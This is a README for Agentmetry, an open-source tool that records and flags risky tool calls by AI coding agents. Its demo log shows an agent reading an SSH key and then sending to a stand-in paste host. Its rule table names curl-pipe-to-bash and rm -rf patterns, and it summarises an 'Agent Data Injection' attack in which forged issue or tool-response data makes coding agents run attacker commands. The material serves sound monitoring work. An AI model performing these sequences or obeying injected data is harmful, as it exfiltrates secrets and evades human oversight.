






<div align="center">

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="docs/logo/agentmetry-logo-white.svg">
    
  </picture>
</p>

<h1>Agentmetry: the local flight recorder for AI coding agents</h1>

<p><strong>Your agent reads a private key, then makes a network call. Your EDR sees a process.<br/>
Agentmetry sees the sequence, tags it with MITRE ATT&CK, and fires one CRITICAL alert.</strong></p>

<p>Records every tool call, denial, and approval from Claude Code, Cursor, Codex and Antigravity into a JSONL trail you own.<br/>
Runs on your machine. Forward to Loki, Elastic, or Splunk only if you want to.</p>

<p align="center">
  <a href="https://github.com/blitzcrieg1/agentmetry/blob/master/LICENSE"></a>
  <a href="https://github.com/blitzcrieg1/agentmetry"></a>
  
</p>

<p align="center">
  <a href="#install--quick-start"><strong>Quickstart</strong></a> ·
  <a href="docs/agentmetry-external-ingest.md"><strong>Docs</strong></a> ·
  <a href="docs/agentmetry-event-schema.md"><strong>Schema</strong></a> ·
  <a href="ROADMAP.md"><strong>Roadmap</strong></a> ·
  <a href="#security"><strong>Security</strong></a>
<p align="center">
  <a href="https://github.com/blitzcrieg1/agentmetry/releases/download/demo-assets/agentmetry.mp4">
    
  </a>
</p>
<p align="center"><strong><a href="https://github.com/blitzcrieg1/agentmetry/releases/download/demo-assets/agentmetry.mp4">▶ Watch demo (MP4)</a></strong></p>

---

> 🚧 **Public Alpha**: Core capture, replay, and SIEM forwarding are usable for early exploration. APIs and integration surfaces may evolve rapidly.

---

## Table of Contents

- [Why Agentmetry?](#why-agentmetry)
- [Install & Quick Start](#install--quick-start)
- [How Agentmetry Works](#how-agentmetry-works)
- [Coverage & Limitations](#coverage--limitations)
- [Capabilities & Integrations](#capabilities--integrations)
- [Behavioral Detection Engine](#behavioral-detection-engine)
- [Data Loss Prevention (DLP)](#data-loss-prevention-dlp)
- [Dashboard](#dashboard)
- [Forwarding to a SIEM](#forwarding-to-a-siem)
- [CLI Reference](#cli-reference)
- [Advanced — governed runtime (optional)](#advanced--governed-runtime-optional)
- [Contributing](#contributing)
- [Security](#security)
- [License](#license)

---

## Why Agentmetry?

When an autonomous agent runs a tool, most stacks keep nothing you could hand to an incident responder. Logs show a process; they do not show **intent**, **session boundaries**, or **what the human approved**.

Agentmetry is the open-source **endpoint flight recorder** for AI agents. It runs entirely on your machine, with optional forwarding to the SIEM you already operate.

**Observability-first by design.** Agentmetry records and correlates what happened at the tool boundary. It is not a sandbox and not a CASB. Prevention (block mode for DLP and tool policy) is opt-in. The default is **detect and record**: every tool call, denial, and approval lands in a JSONL trail you own, with correlated sequence alerts when individually-innocent calls add up to an attack. That is the layer EDR never had: the agent's session, not just the host process.

> an immutable, operator-owned audit trail for governed AI agents, capturing tool execution at the IDE lifecycle boundary and the MCP wire, not in a vendor cloud

We do that by:

- **Intercepting** agent tool calls through IDE lifecycle hooks (Claude Code, Cursor, Codex, Antigravity) and an MCP stdio audit proxy
- **Normalizing** every event into a canonical schema v1.1.0 with MITRE ATT&CK enrichment and SHA-256 argument hashing
- **Detecting** correlated behavioral sequences a single event cannot reveal (credential exfil, guardrail bypass, download cradles, agent data injection, recon-then-grab)
- **Scanning** secrets and PII at the hook boundary with a local regex DLP engine (`log` by default; opt-in `block` mode)
- **Forwarding** the same JSONL trail to Loki, Elastic ECS, Splunk HEC, or a generic webhook, without making the cloud the system of record

**Agentmetry is not a shadow-AI spy.** It records the agents you wire in. If your problem is unmanaged ChatGPT in the browser, you need network/endpoint policy, not a flight recorder.

---

## Install & Quick Start

Agentmetry runs fully locally. The audit trail never leaves your machine unless you explicitly forward it.

### Try it locally (30 seconds)

No server, no API key, no config. Clone and run:

```bash
git clone https://github.com/blitzcrieg1/agentmetry.git && cd agentmetry
pip install -e apps/orchestrator
python scripts/demo.py
```

No single one of those events is an alert. The sequence is. That is the whole
product in one screen.

### The artifact: JSONL trail vs dashboard

Before you install hooks, here is what you get. The demo above writes a few lines
to a local JSONL file (`data/audit-forward.jsonl`). Each line is one canonical
event. None of the tool calls alone is an alert; the detection engine emits a
**fourth line** when the sequence completes:

```jsonl
{"correlation_id":"demo-sess","action":{"type":"tool_called","outcome":"success"},"tool":{"qualified":"cursor.Read","command":"cat ~/.ssh/id_rsa","input_hash":"…","mitre":{"tactic_id":"TA0006","technique_id":"T1552.004"}}}
{"correlation_id":"demo-sess","action":{"type":"tool_called","outcome":"success"},"tool":{"qualified":"cursor.Shell","input_hash":"…"},"dlp":{"rule_id":"aws_access_key","mode":"log","severity":"critical"}}
{"correlation_id":"demo-sess","action":{"type":"tool_called","outcome":"success"},"tool":{"qualified":"WebFetch","command":"fetch https://paste.example.com/upload","mitre":{"tactic_id":"TA0011","technique_id":"T1071.001"}}}
{"correlation_id":"demo-sess","action":{"type":"detection","outcome":"critical"},"detection":{"rule_id":"credential-exfil","severity":"critical","summary":"cursor.Read accessed credentials, then WebFetch egressed to the network in the same session.","event_ids":["…","…"]}}
```

The same session in the dashboard: the detections strip surfaces the CRITICAL
finding; the event feed links each row back to the trail lines above:

<p align="center">
  
</p>

Tool arguments are hashed by default (`input_hash`); DLP records the **rule id**,
never the secret value. The detection line is also written to your SIEM sinks if
you configure them, so you do not need the dashboard open to get paged.

### See the dashboard with a story in it

```bash
python scripts/demo_dashboard.py            # seeds 7 sessions + 5 detections, serves http://127.0.0.1:8010/
python scripts/demo_dashboard.py --live     # ...and streams synthetic agent traffic in real time
```

One command seeds a realistic demo trail and serves the dashboard locally — no
API key, no cloud. Seven sessions, five real detections (computed by the pipeline,
not hand-written). The feed shows approval gates, tool calls, and inline detection
events across Event stream, Detections, and Analytics tabs.

See the [dashboard tour](docs/dashboard-tour.md) for what each view shows and how
to read it.

### Prerequisites

| Requirement | Version |
|-------------|---------|
| Python | 3.11+ |
| Node.js | 18+ (dashboard only) |

### Windows one-flow install

From a fresh clone on Windows 11:

```powershell
git clone https://github.com/blitzcrieg1/agentmetry.git
cd agentmetry
powershell -ExecutionPolicy Bypass -File scripts\install.ps1
scripts\start-dev.bat
```

`install.ps1` creates the orchestrator venv, installs Python + dashboard deps, copies `.env.example`, wires Claude Code and Cursor hooks, and runs `agentmetry doctor --fix` (creates portable `drivers.json` from the example). Skip hooks with `-SkipHooks`; orchestrator-only with `-SkipDashboard`. Opt-in hook enforcement with `-ToolPolicyBlock` or `-DlpBlock`.

### Manual install

```powershell
git clone https://github.com/blitzcrieg1/agentmetry.git
cd agentmetry

# Python orchestrator
cd apps\orchestrator
python -m venv .venv
.\.venv\Scripts\activate
pip install -e ".[dev]"
copy .env.example .env
cd ..\..

# Next.js dashboard
cd apps\dashboard
npm install
cd ..\..
```

### 2. Boot the flight recorder

```powershell
scripts\start-dev.bat
```

Dashboard → [http://localhost:3000](http://localhost:3000) · Orchestrator API → [http://localhost:8000](http://localhost:8000)

### 3. Wire your IDEs (one-time)

```powershell
powershell -ExecutionPolicy Bypass -File scripts\install_claude_hooks.ps1
powershell -ExecutionPolicy Bypass -File scripts\install_cursor_hooks.ps1
```

Fully quit and restart Claude Code / Cursor so hooks load.

### 4. Verify

```powershell
python scripts\agentmetry_ingest.py selftest
```

Events should appear in the dashboard **Flight Recorder** within a few seconds.

When an agent runs a tool, Agentmetry automatically:

1. **Intercepts** the lifecycle hook or MCP `tools/call` before arguments leave the hook process
2. **Hashes** tool arguments (SHA-256) and scrubs inline secrets in command strings
3. **Enriches** each event with MITRE tactic/technique mappings and session correlation
4. **Stores** canonical JSONL locally (`audit-forward.jsonl`) — the system of record for the hook path; each new line is hash-chained for tamper detection
5. **Detects** multi-step behavioral patterns across the session timeline
6. **Forwards** to your SIEM sinks and alert webhook (optional, best-effort)

Verify the local trail after capture:

```powershell
agentmetry verify --trail apps\orchestrator\data\audit-forward.jsonl
```

**What the chain does and does not prove.** Verification catches in-place edits, inserted or reordered lines, and forged appends, and it cross-checks the `.chain` sidecar to catch a truncated file. It cannot, by itself, prove the newest lines were not deleted along with the sidecar: any actor with full write access to the trail can also rewrite the sidecar. For that, `verify` prints the current chain head (sequence number plus SHA-256). Record it somewhere the audited agent cannot write (a git commit, a note, a password manager entry) and compare on the next verify.

---

## How Agentmetry Works

### Architecture



### Capture paths



| Component | Path | Role |
|-----------|------|------|
| **Hook client** | `scripts/agentmetry_ingest.py` | Maps IDE lifecycle events to canonical payloads; hashes args in-process |
| **MCP proxy** | `apps/orchestrator/tools/mcp_audit_proxy.py` | Wraps any stdio MCP server; logs every `tools/call` + errors |
| **Ingest API** | `core/audit/ingest.py` | Normalizes payloads, infers approvals (`inferred:*`), writes sinks |
| **Tool policy** | `core/audit/tool_policy/` | Allow/deny by tool name (glob) and optional shell regex; runs before DLP |
| **DLP engine** | `core/audit/dlp/` | Regex scan of tool arguments (validators, e.g. Luhn); `log` or `block` before execution |
| **Detection engine** | `core/audit/detection/` | Correlated sequence rules over a session's event timeline |
| **Sinks** | `core/audit/sinks.py` | File, webhook, Elastic ECS, Splunk HEC |
| **Replay** | `core/audit/replay.py` | ASCII timeline from the governed-runtime outbox (`events.db`); hook users use the dashboard or JSONL |

### The canonical event

Every run emits typed, SIEM-ready JSON. A single `tool_called` line:

```json
{
  "schema_version": "1.1.0",
  "correlation_id": "thread-8892",
  "timestamp_utc": "2026-07-12T09:14:22.041+00:00",
  "actor": {"type": "user", "id": "dev_01", "role": "operator"},
  "action": {"type": "tool_called", "outcome": "success"},
  "agent": {"name": "cursor", "skill_id": ""},
  "tool": {
    "qualified": "vault_fs.read_file",
    "server": "vault_fs",
    "input_hash": "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
    "parameters_redacted": true,
    "mitre": {"tactic": "Collection (TA0009)", "technique": "Data from Local System (T1005)"}
  },
  "model": {"id": "claude-3-5-sonnet", "provider": "anthropic"}
}
```

Full schema → [docs/agentmetry-event-schema.md](docs/agentmetry-event-schema.md)

---

## Coverage & Limitations

Agentmetry records agents you wire in — **IDE hooks** or the **MCP proxy**. It is honest about what it cannot see.

| Tier | Setup | Agentmetry coverage |
|------|-------|---------------------|
| **A** | MCP servers wrapped with the audit proxy | **Full tool-call capture** — every `tools/call` + error responses, arg hashes, session correlation |
| **B** | IDE hooks (Claude, Cursor, Codex, Antigravity) | Tool calls (success/failure), approval prompts; approve/deny **inferred** from execution and flagged `inferred:*` |
| **C** | Unmanaged ChatGPT, Cursor with hooks off | **Not visible.** CASB / secure-web-gateway territory |

---

## Capabilities & Integrations

| | |
| --- | --- |
| 🎥 **Flight Recorder** | Live audit tail with dynamic columns, drag-and-drop layout, CSV export, and session drill-down |
| 📊 **Analytics & Process Tree** | Session-level charts, MITRE tactic breakdown, horizontal React Flow timeline |
| 🔍 **Behavioral Detection** | Correlated sequence rules: credential exfil, guardrail bypass, download cradles, agent data injection, supply-chain merges |
| 🛡️ **Local DLP** | Regex scanner detects AWS keys, GitHub tokens, Slack tokens, and PII at the hook boundary (`block` mode optional) |
| 🎯 **MITRE ATT&CK mapping** | Per-tool tactic/technique tags on every canonical event |
| 🔐 **Argument hashing** | SHA-256 of tool args by default — plaintext never crosses the wire from hooks |
| 📡 **SIEM-native export** | Elastic ECS, Splunk HEC, Loki/LogQL, generic webhook, alert webhook on denials |
| 🔁 **Replay & evidence** | ASCII session timeline + tamper-evident evidence pack export |
| 👥 **Multi-IDE support** | Claude Code, Cursor, Codex, Antigravity — global hook install scripts |

### Integrations

| Category | Supported today | Roadmap |
| -------- | --------------- | ------- |
| **IDE / Agent hosts** | Claude · Cursor · Codex · Antigravity | Windsurf · VS Code Copilot |
| **Agent frameworks** | [CrewAI](adapters/crewai/) · [OpenSRE](adapters/opensre/) | LangChain · AutoGen |
| **MCP transport** | Stdio audit proxy (wrap any MCP server command) | SSE / streamable HTTP proxy |
| **Observability / SIEM** | Loki · Grafana · Elastic ECS · Splunk HEC · generic webhook | Datadog · New Relic |
| **Detection formats** | In-engine sequence rules · LogQL · Elastic · Splunk · [Sigma pack](docs/integrations/sigma/README.md) | STIX/TAXII export |
| **Policy engines** | Regex DLP manifest (`policies/dlp/`) · tool allow/deny YAML (`policies/tool/`) | OPA / Rego policy-as-code |
| **Compliance docs** | [ISO 42001 mapping](docs/compliance/iso-42001-mapping.md) · [AI Act checklist](docs/compliance/ai-act-deployer-checklist.md) | SOC 2 evidence templates |

Agentmetry is community-built. Browse [open issues](https://github.com/blitzcrieg1/agentmetry/issues) or the [roadmap](ROADMAP.md).

---

## Behavioral Detection Engine

Per-event MITRE tags say *what* a single tool call is. The detection engine says what a **sequence** of calls means: the signal an EDR cannot see because it never had the agent's session boundary.

Rules run **as events arrive**. A firing rule is emitted once per session as a first-class canonical event (`action.type: detection`, `action.outcome: <severity>`) down the same sinks as everything else, so it reaches your SIEM, your alert webhook, and the live feed without anyone opening a dashboard. The same findings are recomputed from the trail on `GET /audit/detections/{correlation_id}`.

> **Alpha limitation.** Live detection checkpoint state persists in SQLite across orchestrator restarts (emitted rules and session windows are not re-fired). Detection state is still per-process and not shared across multiple orchestrator instances. The JSONL trail stays authoritative; every detection can be recomputed on query via `GET /audit/detections/{correlation_id}`.

### How sequence rules work

No single event in the demo session looks like an incident. The engine waits for an ordered pattern inside one `correlation_id` (one agent session), then emits one detection event:



Each rule in the table below is the same idea: **ordered steps within a session**, not a threshold on one row. `credential-exfil` requires credential access (T1552) *then* network egress (TA0011) in that order. Reversed order does not fire.



| Rule ID | Severity | Pattern |
| ------- | -------- | ------- |
| `credential-exfil` | critical | Credential access (T1552) → network egress (TA0011) |
| `approval-denied-then-executed` | critical | Human denied a gated tool → same tool executed successfully later |
| `encoded-command-download` | critical | Remote code fetched and executed: a raw-IP download, or a fetch piped into an interpreter (`curl … \| bash`). T1105, plus T1027 when base64-encoded |
| `pr-merged-without-review` | critical | A pull request merged with no preceding read of its diff (T1195.002) |
| `autonomous-unapproved-write` | high | Autonomous agent writes/deletes with no prior human approval |
| `untrusted-input-then-risky-action` | high | Session ingested externally-authored content (a GitHub issue, a fetched page) → then performed a risky action |
| `destructive-delete-burst` | high | 5+ deletions in one session, by technique or command (`rm -rf`) |
| `discovery-then-collect` | medium | Filesystem recon burst (TA0007) → data collection |
| `off-hours-activity` | medium | Unscheduled autonomous impact action outside business hours. **Opt-in** (`AGENTMETRY_DETECT_OFF_HOURS=1`) with an operator-set window; scheduled jobs excluded |

Query detections for a session:

```http
GET /api/v1/audit/detections/{correlation_id}
X-API-Key: <optional>
```

### Agent Data Injection

[*Agent Data Injection Attacks are Realistic Threats to AI Agents*](https://arxiv.org/abs/2607.05120)
(Choi et al., July 2026) demonstrates remote code execution and supply-chain
compromise against **Claude Code, Codex, Gemini CLI and Antigravity**. ADI hides
malicious data inside content an agent already trusts, such as a GitHub issue
comment carrying forged author metadata, so the agent runs an attacker's command
believing it came from a maintainer.

The paper tested model hardening, input guardrails, alignment output guardrails,
plan-then-execute, sandboxing and dual-LLM. All of them fail on ADI, for a
reason worth quoting:

> ADI "corrupts only the data the agent acts on, leaving the agent's task
> aligned with the user prompt."

Nothing about the request looks wrong. The agent is doing what you asked. When
the prompt looks clean and the guardrails pass, the agent's **behaviour** is the
only evidence left, which is the layer Agentmetry works at. Both published
chains are sequences of tool calls, and both are detected:

| Paper | Chain | Fires |
|-------|-------|-------|
| §4.2 RCE via origin injection | `gh issue view` → attacker's command | `encoded-command-download` + `untrusted-input-then-risky-action` |
| §4.3 Supply chain via tool-response injection | `gh pr view` → merge, diff never read | `pr-merged-without-review` |

**To be clear about the boundary: Agentmetry does not prevent ADI, and nothing
here should be read as claiming otherwise.** Prevention requires isolating
trusted from untrusted data inside the agent, which is the paper's own
conclusion and is not something a recorder can do. We detect the consequence.

---

## Data Loss Prevention (DLP)

Agentmetry ships a local regex DLP engine that scans tool arguments **before** they are executed or logged. When a match fires in `block` mode, the hook denies execution and emits a `tool_denied` event.



| Env | Default | Description |
| --- | ------- | ----------- |
| `AGENTMETRY_DLP_MODE` | `log` | `log` · `block` · `disable` |
| `AGENTMETRY_DLP_PII` | `1` | Enable PII rules (SSN, etc.) |
| `AGENTMETRY_DLP_RULES_PATH` | `policies/dlp/manifest.yaml` | Custom rule manifest |

Rules cover AWS keys, GitHub PATs, Slack tokens, bearer headers, private keys, and US SSN patterns. Add custom regex rules without touching Python — drop entries into the manifest.

### Tool allow/deny policy

Structural tool policy runs **before** DLP at the hook boundary. Deny rules match tool names (glob) and optional shell command regex.

| Env | Default | Description |
| --- | ------- | ----------- |
| `AGENTMETRY_TOOL_POLICY_MODE` | `log` | `log` · `block` · `disable` |
| `AGENTMETRY_TOOL_POLICY_PATH` | `policies/tool/manifest.yaml` | Custom allow/deny manifest |

In `block` mode, a matching deny rule returns `permission: deny` to the IDE hook (same path as DLP block).

---

## Dashboard

The Next.js dashboard at `:3000` gives SOC analysts a live view of agent activity:

| View | Features |
| ---- | -------- |
| **Event stream** | Real-time audit tail, detections strip, event histogram, color-coded source badges (Claude, Cursor, Codex, Antigravity), outcome filters, split-pane inspector, CSV/JSONL export |
| **Detections** | Triage panel for correlated findings — severity, rule ID, session drill-down; open a row to jump to the event stream |
| **Analytics** | Outcome distribution, MITRE tactic chart, session ID search, weekly dogfood stats strip (same data as `agentmetry stats --days 7`) |
| **Column manager** | Drag-and-drop column layout featuring built-in fields for model, skill, host, MCP server, and failure reasons — reorder or hide via the Columns settings panel |
| **Process Tree** | Horizontal React Flow timeline of events within a selected session |

Dark mode supported with theme toggle. Logo and panels adapt automatically.

---

## Forwarding to a SIEM

For agents captured via IDE hooks (the common case), the canonical JSONL trail is the **system of record**; `audit.db` indexes the same events for fast dashboard queries. Forwarders are best-effort.

| Sink | Env |
|------|-----|
| **File (default)** | `AGENTMETRY_AUDIT_SINK=file` — hash-chained JSONL (`agentmetry verify --trail`) |
| **Webhook** | `AGENTMETRY_AUDIT_SINK=webhook` + `AGENTMETRY_AUDIT_WEBHOOK_URL=...` |
| **Elastic ECS** | `AGENTMETRY_AUDIT_SINK=elastic` + `AGENTMETRY_AUDIT_ELASTIC_URL` + `AGENTMETRY_ELASTIC_API_KEY` |
| **Splunk HEC** | `AGENTMETRY_AUDIT_SINK=splunk` + `AGENTMETRY_AUDIT_SPLUNK_HEC_URL` + `AGENTMETRY_SPLUNK_HEC_TOKEN` |
| **Alert webhook** | `AGENTMETRY_AUDIT_ALERT_WEBHOOK_URL=...` (fires on denied/error outcomes) |


Homelab SIEM with Loki + Grafana:

```powershell
docker compose -f docker-compose.loki.yml up -d
# Grafana → http://localhost:3001
# Explore: {job="agentmetry"} | json
```

Integration guides → [docs/integrations/](docs/integrations/)

---

## CLI Reference

`scripts\agentmetry.bat` (or `python -m cli` inside the orchestrator venv):

| Command | What it does |
|---------|--------------|
| `scripts\install.ps1` | Windows one-flow: venv, dashboard deps, IDE hooks, `doctor --fix` |
| `agentmetry start` / `stop` / `status` | Run the orchestrator detached; check health |
| `agentmetry stats --days 7` | Weekly audit metrics (events, sessions, detections, DLP/policy blocks) |
| `agentmetry replay <thread_id>` | ASCII audit timeline for one governed-runtime run (`events.db` outbox) |
| `agentmetry export --evidence` | Tamper-evident batch pack (JSON + SHA-256) |
| `agentmetry verify <evidence.json>` | Recompute the integrity hash on an evidence export |
| `agentmetry verify --trail <audit-forward.jsonl>` | Verify JSONL hash chain (tamper detection on file sink) |
| `agentmetry doctor` / `doctor --fix` | Preflight checks; `--fix` creates portable `drivers.json` |

`scripts\agentmetry.bat` remains as a legacy alias.

---

## Advanced — governed runtime (optional)

The README above describes the **SIEM flight recorder** (hooks → JSONL → dashboard). The same repo also ships an optional **Obsidian + LangGraph** skill runtime with vault-defined skills and approval gates — useful for governed demos, not required for IDE hook capture.

